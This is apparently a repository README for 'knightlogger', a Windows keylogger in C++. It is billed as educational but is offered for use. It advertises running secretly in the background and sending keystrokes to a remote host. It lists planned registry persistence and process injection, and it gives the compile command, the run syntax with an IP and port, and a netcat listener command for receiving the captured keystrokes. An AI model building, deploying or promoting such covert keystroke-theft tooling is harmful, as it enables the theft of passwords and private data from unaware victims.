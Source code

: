# knightlogger
a basic stable keylogger written for eductional purpose works on windows platforms 
notice this progeam is making high cpu usage
# options:
- remote access keylogger
- works in background secretly
 -> additional functions will be added soon like registery persistence and inject in system proccesses
# compile
`g++ -o knightlogger.exe knightlogger.cpp -lwsock32`
lwsock32 for telling g++ to link windows socket library

**easy to use**
`knightlogger.exe ipaddr portnumber`

you can listen for connection by many ways for example netcat way
`nc -lvp 4444`

**notice:** support only english main alphabet ascii characters and some other special keys but not all ,  i will add full support soon 

